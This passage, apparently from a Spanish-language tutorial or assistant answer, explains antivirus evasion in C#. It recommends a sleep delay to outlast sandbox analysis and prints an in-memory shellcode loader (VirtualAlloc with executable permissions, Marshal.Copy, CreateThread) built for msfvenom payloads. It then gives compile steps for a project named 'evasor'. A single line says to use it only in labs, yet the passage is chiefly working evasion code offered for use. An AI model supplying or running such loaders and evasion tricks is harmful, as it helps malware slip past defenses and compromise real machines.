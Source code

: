 Esto **evita que el antivirus escanee el ejecutable en disco**.

---

#### 📌 4. **Uso de técnicas de “sleep” o “delay”**

Algunos antivirus analizan solo los primeros segundos de ejecución. Puedes usar técnicas como:

```csharp
System.Threading.Thread.Sleep(10000); // Espera 10 segundos
```

---

#### 📌 5. **Uso de Shellcode + Cargador en C# (más avanzado)**

Esto simula una técnica de ataque real. Ejemplo simplificado:

```csharp
[DllImport("kernel32")]
static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
[DllImport("kernel32")]
static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

byte[] shellcode = new byte[] { 0xfc, 0x48, 0x83, 0xe4, ... }; // shellcode generado con msfvenom
IntPtr addr = VirtualAlloc(IntPtr.Zero, (uint)shellcode.Length, 0x1000, 0x40);
Marshal.Copy(shellcode, 0, addr, shellcode.Length);
CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
```

Este método **inyecta código directamente en memoria**, evitando detección basada en disco.

> ⚠️ **Este tipo de técnica debe usarse solo en entornos de laboratorio, nunca contra objetivos reales sin permiso.**

---

### 🔧 ¿Cómo compilar en C#?

1. Instala **Visual Studio Community** o usa `dotnet CLI`.
2. Usa un archivo `.cs` y compílalo:

```bash
csc.exe archivo.cs
```

O con .NET 6+:

```bash
dotnet new console -n evasor
dotnet build
```

---
